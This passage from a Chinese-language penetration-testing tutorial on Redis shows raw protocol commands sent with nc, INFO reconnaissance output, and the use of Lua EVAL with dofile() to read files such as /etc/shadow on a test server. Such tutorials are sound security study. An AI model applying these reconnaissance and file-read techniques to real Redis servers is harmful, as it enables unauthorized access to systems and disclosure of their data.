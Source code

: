 举一个例子：
对于设置”I am boring”的 key 为”with_space”，使用 redis-cli 的设置很简单，一眼就能看懂

```
$ redis-cli -h 127.0.0.1 -p 6379 set with_space 'I am boring'
+OK 
```

接下来我们套用规则来设置这条命令
*3 是 set 命令的代表
然后根据多个参数时的字符串表达式来构造 set with_space I am boring 这个命令，上面这条命令等价与后面的这条命令

```
$ echo -e  '*3\r\n$3\r\nSET\r\n$10\r\nwith_space\r\n$11\r\nI am boring\r\n' | nc -n -q 1 127.0.0.1 6379 
+OK 
```

## 0x06 信息收集

* * *

经过前面的铺垫，我们可以很好的和服务器进行交互获取我们想要的信息。Redis 的一些命令是很有用的，例如”INFO”和”CONFIG GET (dir|dbfilename|logfile|pidfile)＂。这里就把测试机器上的执行＂INFO＂的输出贴出来

```
# Server
redis_version:2.6.0
redis_git_sha1:00000000
redis_git_dirty:0
redis_mode:standalone
os:Linux 3.2.0-61-generic-pae i686
arch_bits:32
multiplexing_api:epoll
gcc_version:4.6.3
process_id:19114
run_id:5a29a860ccbe05b43dbe15c0674fb83df0449b25
tcp_port:6379
uptime_in_seconds:9806
uptime_in_days:0
lru_clock:518932

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:1
blocked_clients:0

# Memory
used_memory:661768
[...] 
```

下一步当然是进军文件系统，Redis 可以执行 Lua 脚本(在沙箱中)通过”EVAL”命令。沙箱允许 dofile()命令。这条命令能够查看文件和列目录。因为 Redis 没有特殊的权限，所以请求/etc/shadow 时会显示一个”permission denied”的错误信息（与运行 redis 服务的用户的权限有关）

